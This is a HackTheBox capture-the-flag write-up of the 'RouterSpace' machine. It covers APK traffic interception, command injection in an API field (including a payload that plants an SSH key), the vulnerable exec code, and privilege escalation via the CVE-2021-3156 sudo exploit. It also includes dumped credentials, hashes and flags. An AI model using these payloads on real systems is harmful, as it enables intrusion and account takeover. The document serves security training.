

---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - Android
  - Baron
  - Samedit
  - CVE-2021-3156
  - RCE
  - command-injection
  - sudo-privesc
  - Linux
---


# Resolution summary

>[!summary]
>- Web server allows to download an **APK**
>- Intercepting the APK’s HTTP traffic it was possible to find an **API** vulnerable to **code injection**
>- Local enumeration allowed to discover that the machine’s sudo binary was vulnerable to **CVE-2021-3156: Heap-Based Buffer Overflow in Sudo (Baron Samedit)**

## Improved skills

- Intercepting APK’s HTTP request and testing API
- Finding and exploiting command injection vulnerabilities
- Exploiting known vulnerabilities

## Used tools

- nmap
- apktool & bytecode-viewer
- genymotion
- burpsuite
- scp

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/RouterSpace]
└─$ sudo nmap -p- -v 10.10.11.148 -sT -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-07 14:34 EDT
Initiating Ping Scan at 14:34
Scanning 10.10.11.148 [4 ports]
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 112.47 seconds
           Raw packets sent: 4 (152B) | Rcvd: 1 (28B)
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/B2R/RouterSpace]
└─$ sudo nmap -sV -sC -p 22,80 -oN scan/open-tcp-ports.txt 10.10.11.148
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-07 14:36 EDT
Nmap scan report for 10.10.11.148
Host is up (0.038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-RouterSpace Packet Filtering V1
| ssh-hostkey:
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)
80/tcp open  http
|_http-trane-info: Problem with XML parsing of /evox/about
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-93835
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 76
|     ETag: W/"4c-mbkOKply3sgRHIKxe7Ti+nqgSz8"
|     Date: Sat, 07 May 2022 18:37:03 GMT
|     Connection: close
|     Suspicious activity detected !!! {RequestID: h5mK W v o EI 3 6F }
|   GetRequest:
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-34170
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Sat, 07 May 2022 18:37:03 GMT
|     Connection: close
|     <!doctype html>
|     <html class="no-js" lang="zxx">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>RouterSpace</title>
|     <meta name="description" content="">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/owl.carousel.min.css">
|     <link rel="stylesheet" href="css/magnific-popup.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/themify-icons.css">
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-1296
|     Allow: GET,HEAD,POST
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 13
|     ETag: W/"d-bMedpZYGrVt1nR4x+qdNZ2GqyRo"
|     Date: Sat, 07 May 2022 18:37:03 GMT
|     Connection: close
|     GET,HEAD,POST
|   RTSPRequest, X11Probe:
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-title: RouterSpace
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port22-TCP:V=7.92%I=7%D=5/7%Time=6276BC4F%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-RouterSpace\x20Packet\x20Filtering\x20V1\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.92%I=7%D=5/7%Time=6276BC50%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,312C,"HTTP/1\.1\x20200\x20OK\r\nX-Powered-By:\x20RouterSpace\r\nX
SF:-Cdn:\x20RouterSpace-34170\r\nAccept-Ranges:\x20bytes\r\nCache-Control:
SF:\x20public,\x20max-age=0\r\nLast-Modified:\x20Mon,\x2022\x20Nov\x202021
SF:\x2011:33:57\x20GMT\r\nETag:\x20W/\"652c-17d476c9285\"\r\nContent-Type:
SF:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\x2025900\r\nDate:\x2
SF:0Sat,\x2007\x20May\x202022\x2018:37:03\x20GMT\r\nConnection:\x20close\r
SF:\n\r\n<!doctype\x20html>\n<html\x20class=\"no-js\"\x20lang=\"zxx\">\n<h
SF:ead>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<met
SF:a\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\x20\x
SF:20\x20<title>RouterSpace</title>\n\x20\x20\x20\x20<meta\x20name=\"descr
SF:iption\"\x20content=\"\">\n\x20\x20\x20\x20<meta\x20name=\"viewport\"\x
SF:20content=\"width=device-width,\x20initial-scale=1\">\n\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"css/bootstrap\.min\.css\">\n\x2
SF:0\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"css/m
SF:agnific-popup\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20h
SF:ref=\"css/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"sty
SF:lesheet\"\x20href=\"css/themify-icons\.css\">\n\x20")%r(HTTPOptions,107
SF:,"HTTP/1\.1\x20200\x20OK\r\nX-Powered-By:\x20RouterSpace\r\nX-Cdn:\x20R
SF:outerSpace-1296\r\nAllow:\x20GET,HEAD,POST\r\nContent-Type:\x20text/htm
SF:l;\x20charset=utf-8\r\nContent-Length:\x2013\r\nETag:\x20W/\"d-bMedpZYG
SF:rVt1nR4x\+qdNZ2GqyRo\"\r\nDate:\x20Sat,\x2007\x20May\x202022\x2018:37:0
SF:3\x20GMT\r\nConnection:\x20close\r\n\r\nGET,HEAD,POST")%r(RTSPRequest,2
SF:F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")
SF:%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20cl
SF:ose\r\n\r\n")%r(FourOhFourRequest,132,"HTTP/1\.1\x20200\x20OK\r\nX-Powe
SF:red-By:\x20RouterSpace\r\nX-Cdn:\x20RouterSpace-93835\r\nContent-Type:\
SF:x20text/html;\x20charset=utf-8\r\nContent-Length:\x2076\r\nETag:\x20W/\
SF:"4c-mbkOKply3sgRHIKxe7Ti\+nqgSz8\"\r\nDate:\x20Sat,\x2007\x20May\x20202
SF:2\x2018:37:03\x20GMT\r\nConnection:\x20close\r\n\r\nSuspicious\x20activ
SF:ity\x20detected\x20!!!\x20{RequestID:\x20h5mK\x20\x20\x20\x20\x20W\x20v
SF:\x20o\x20EI\x203\x20\x206F\x20}\n\n\n\n\n\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.16 seconds
```

# Enumeration

## Port 80 - HTTP (RouterSpace)

Enumerated home page:


Downloaded the APK from the site: [http://10.10.11.148/RouterSpace.apk](http://10.10.11.148/RouterSpace.apk)

## RouterSpace.apk

Decompiled the APK:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/RouterSpace/loot]
└─$ apktool d RouterSpace.apk
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.5.0-dirty on RouterSpace.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

Analyzed the AndroidManifest.xml

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/RouterSpace/loot]
└─$ bat AndroidManifest.xml
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: AndroidManifest.xml
       │ Size: 1.1 KB
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" android:compileSdkVersion="30" android:compileSdkVersionCodename="11" package="com.routerspace" platform
       │ BuildVersionCode="30" platformBuildVersionName="11">
   2   │     <uses-permission android:name="android.permission.INTERNET"/>
   3   │     <application android:allowBackup="false" android:appComponentFactory="androidx.core.app.CoreComponentFactory" android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:name="com.routerspace.MainApplication
       │ " android:roundIcon="@mipmap/ic_launcher" android:theme="@style/AppTheme">
   4   │         <activity android:configChanges="keyboard|keyboardHidden|orientation|screenSize|uiMode" android:label="@string/app_name" android:launchMode="singleTask" android:name="com.routerspace.MainActivity" android:windowSoftInpu
       │ tMode="adjustResize">
   5   │             <intent-filter>
   6   │                 <action android:name="android.intent.action.MAIN"/>
   7   │                 <category android:name="android.intent.category.LAUNCHER"/>
   8   │             </intent-filter>
   9   │         </activity>
  10   │     </application>
  11   │ </manifest>
```

Ran the APK on Genymotion (Android 6.0):


Intercepted APK traffic:


```bash
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 16
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"0.0.0.0"}
```

# Exploitation

## Command Injection in deviceAccess API

Request:

```bash
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 19
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"0.0.0.0;id"}
```

Responde:

```bash
HTTP/1.1 200 OK
X-Powered-By: RouterSpace
X-Cdn: RouterSpace-19542
Content-Type: application/json; charset=utf-8
Content-Length: 60
ETag: W/"3c-sZwJm+90xtMPuuO1H89HShTmFxY"
Date: Sat, 07 May 2022 19:25:32 GMT
Connection: close

"0.0.0.0\nuid=1001(paul) gid=1001(paul) groups=1001(paul)\n"
```

Added a custom SSH key to paul because target machine wasn’t able to connect back to attacker machine:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/RouterSpace/exploit]
└─$ ssh-keygen -b 2048 -t rsa -f paul -q -N ""

┌──(kali㉿kali)-[~/…/HTB/B2R/RouterSpace/exploit]
└─$ cat paul.pub | xclip -sel c

┌──(kali㉿kali)-[~/…/HTB/B2R/RouterSpace/exploit]
└─$ chmod 500 paul
```

```
POST /api/v4/monitoring/router/dev/check/deviceAccess HTTP/1.1
accept: application/json, text/plain, */*
user-agent: RouterSpaceAgent
Content-Type: application/json
Content-Length: 440
Host: routerspace.htb
Connection: close
Accept-Encoding: gzip, deflate

{"ip":"0.0.0.0;echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8n5jjOE4i+yYLB4O9fBEclxopEOlKh45pBAGTOnc1H9A5O0n4pxcx9Ps/W3/oz6snuDIWlJuPfdBXKXU2rlf4XJ2aD7hpG2ZTWy7r+iQOaHnmNV4yGtNIA/ztFbQyUZjpDJxJZuxgA7WpH9shA9HUBlzQP6uk6BadMg4w5oDfA72063SAcgRpPQiv29YufFop7uY6jDDgkjnYPWfZW3mQ+GaWFyMPlK3g9nqYoPceOx2mb+1cBSl91eTkm04a/g7JaNYyzvN6KUPezKRcI37reOY5u6zGHsHIgzrFNsijk3BMptnOI/DNvxZ5cnYDMyVJC7CQyAKoBpTOU0YEBl4b kali@kali' >> ~/.ssh/authorized_keys"}
```

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/RouterSpace/exploit]
└─$ ssh paul@routerspace.htb -i paul
The authenticity of host 'routerspace.htb (10.10.11.148)' can't be established.
ED25519 key fingerprint is SHA256:iwHQgWKu/VDyjka2Y4j2V8P2Rk6K13HuNT4JTnITIDk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'routerspace.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 07 May 2022 07:34:49 PM UTC

  System load:           0.0
  Usage of /:            70.7% of 3.49GB
  Memory usage:          17%
  Swap usage:            0%
  Processes:             219
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.148
  IPv6 address for eth0: dead:beef::250:56ff:feb9:4de8

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

80 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Nov 20 18:30:35 2021 from 192.168.150.133
paul@routerspace:~$ id; hostname; ip a; cat ~/user.txt
uid=1001(paul) gid=1001(paul) groups=1001(paul)
routerspace.htb
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4d:e8 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.148/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:4de8/64 scope global dynamic mngtmpaddr
       valid_lft 86396sec preferred_lft 14396sec
    inet6 fe80::250:56ff:feb9:4de8/64 scope link
       valid_lft forever preferred_lft forever
18f213ac5d7fbc0935d14062481cf7cf
```

### Vulnerable Code

**index.js**

```json
...
app.post(                                                                                                                                                                                                                                   
  "/api/v4/monitoring/router/dev/check/deviceAccess",                                                                                                                                                                                       
  checkAgent,                                                                                                                                                                                                                               
  async function (req, res) {                                                                                                                                                                                                               
    var options = {                                                                                                                                                                                                                         
      encoding: "utf8",                                                                                                                                                                                                                     
    };                                                                                                                                                                                                                                      
    var ip = req.body["ip"];                                                                                                                                                                                                                
    const exec = promisify(require('child_process').exec);                                                                                                                                                                                  
    exec("echo " + ip, options).then(({ stdout }) => res.json(stdout).send()).catch(res.json);                                                                                                                                              
  }                                                                                                                                                                                                                                         
);
...
```

# Privilege Escalation

## Local enumeration

Enumerated passwd:

```bash
paul@routerspace:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
paul:x:1001:1001:,,,:/home/paul:/bin/bash
```

Enumerated hardcoded credentials:

```bash
paul@routerspace:/opt/www/public/routerspace$ cat index.js
var express = require("express");
const path = require("path");
const app = express();
const { check, oneOf, validationResult } = require("express-validator");
const promisify = require('util').promisify;

const port = 80;
const tokenSecret = "v%XsfkyZ#2SsfY9F--ippsec.rocks--x0o^VvYSRCw$5#MKi5";
const userAgent = "RouterSpaceAgent";
const payload = [
  "paul@routerspace.htb",
  "*******************",
  "Hyakutake-0x1",
];
...
app.post(                                                                                                                                                                                                                                   
  "/api/v4/monitoring/router/dev/check/deviceAccess",                                                                                                                                                                                       
  checkAgent,                                                                                                                                                                                                                               
  async function (req, res) {                                                                                                                                                                                                               
    var options = {                                                                                                                                                                                                                         
      encoding: "utf8",                                                                                                                                                                                                                     
    };                                                                                                                                                                                                                                      
    var ip = req.body["ip"];                                                                                                                                                                                                                
    const exec = promisify(require('child_process').exec);                                                                                                                                                                                  
    exec("echo " + ip, options).then(({ stdout }) => res.json(stdout).send()).catch(res.json);                                                                                                                                              
  }                                                                                                                                                                                                                                         
);
```

Enumerated possible exploit

```bash
═══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
```

## CVE-2021-3156: Heap-Based Buffer Overflow in Sudo (Baron Samedit)

[https://github.com/CptGibbon/CVE-2021-3156](https://github.com/CptGibbon/CVE-2021-3156)

Enumerated the target for the correct versions:

```bash
paul@routerspace:~$ sudo -V
Sudo version 1.8.31

OS: Linux version 5.4.0-90-generic (buildd@lgw01-amd64-054) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021
User & Groups: uid=1001(paul) gid=1001(paul) groups=1001(paul)
Hostname: routerspace.htb
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /usr/bin/nc is available for network discover & port scanning (linpeas can discover hosts and scan ports, learn more with -h)
```

Copied the entire PoC folder on the machine:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/RouterSpace/exploit]
└─$ scp -r -i paul CVE-2021-3156 paul@routerspace.htb:/home/paul/CVE
shellcode.c                                                                                                                                                                                               100%  599    12.9KB/s   00:00
x.so.2                                                                                                                                                                                                    100%   13KB 178.4KB/s   00:00
HEAD                                                                                                                                                                                                      100%   21     0.6KB/s   00:00
HEAD                                                                                                                                                                                                      100%  178     3.3KB/s   00:00
main                                                                                                                                                                                                      100%  178     4.8KB/s   00:00
HEAD                                                                                                                                                                                                      100%  178     4.5KB/s   00:00
index                                                                                                                                                                                                     100%  441    11.5KB/s   00:00
packed-refs                                                                                                                                                                                               100%  112     3.1KB/s   00:00
main                                                                                                                                                                                                      100%   41     1.0KB/s   00:00
HEAD                                                                                                                                                                                                      100%   30     0.8KB/s   00:00
config                                                                                                                                                                                                    100%  263     6.6KB/s   00:00
exclude                                                                                                                                                                                                   100%  240     6.3KB/s   00:00
update.sample                                                                                                                                                                                             100% 3650    91.9KB/s   00:00
pre-merge-commit.sample                                                                                                                                                                                   100%  416    11.3KB/s   00:00
pre-receive.sample                                                                                                                                                                                        100%  544    14.7KB/s   00:00
pre-rebase.sample                                                                                                                                                                                         100% 4898   123.3KB/s   00:00
post-update.sample                                                                                                                                                                                        100%  189     4.8KB/s   00:00
push-to-checkout.sample                                                                                                                                                                                   100% 2783    49.3KB/s   00:00
commit-msg.sample                                                                                                                                                                                         100%  896    24.2KB/s   00:00
pre-push.sample                                                                                                                                                                                           100% 1374    37.0KB/s   00:00
fsmonitor-watchman.sample                                                                                                                                                                                 100% 4655   119.4KB/s   00:00
applypatch-msg.sample                                                                                                                                                                                     100%  478    12.9KB/s   00:00
pre-applypatch.sample                                                                                                                                                                                     100%  424    11.3KB/s   00:00
pre-commit.sample                                                                                                                                                                                         100% 1643    44.2KB/s   00:00
prepare-commit-msg.sample                                                                                                                                                                                 100% 1492    39.5KB/s   00:00
pack-03e9e7d8779c604437eed1ee00f55f70de330ba7.idx                                                                                                                                                         100% 1436    35.5KB/s   00:00
pack-03e9e7d8779c604437eed1ee00f55f70de330ba7.pack                                                                                                                                                        100% 4227   100.9KB/s   00:00
description                                                                                                                                                                                               100%   73     1.7KB/s   00:00
Dockerfile                                                                                                                                                                                                100%  332     8.8KB/s   00:00
exploit.c                                                                                                                                                                                                 100% 2048    54.2KB/s   00:00
README.md                                                                                                                                                                                                 100%  692    18.5KB/s   00:00
Makefile                                                                                                                                                                                                  100%  208     5.6KB/s   00:00
exploit                                                                                                                                                                                                   100%   16KB 364.7KB/s   00:00
```

Compiled the exploit and obtained the flag:

```bash
paul@routerspace:~/CVE$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
paul@routerspace:~/CVE$ ./exploit
# id; hostname; ip a; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root),1001(paul)
routerspace.htb
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4d:e8 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.148/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:4de8/64 scope global dynamic mngtmpaddr
       valid_lft 86394sec preferred_lft 14394sec
    inet6 fe80::250:56ff:feb9:4de8/64 scope link
       valid_lft forever preferred_lft forever
83567d243b7de6ad84e6b2a4543a24ee
```


# Trophy


>[!success]
>**User.txt**
>18f213ac5d7fbc0935d14062481cf7cf

>[!success]
>**Root.txt**
>83567d243b7de6ad84e6b2a4543a24ee

**/etc/shadow**

```bash
# cat /etc/shadow | grep '\$'
root:$6$lw6PWI9kEABNZiKm$UoysFK0xDZgFk828w.7t30d8iRi6Qxv9xTkwvjJPRRxJvFQwTOkjvUq5y4OUO/LYV8KlqORQ4kolNeDfGFQd5.:18956:0:99999:7:::
paul:$6$XYKUEvTt794C63vT$Y7MYBAH81SB.kZujevBehnueBAwIX3PeYPwilZ1L1DDhFFaGxac8p8N2411NWl7.dPSb6nLYor8Jf1oyM5wSf1:19044:0:99999:7:::
```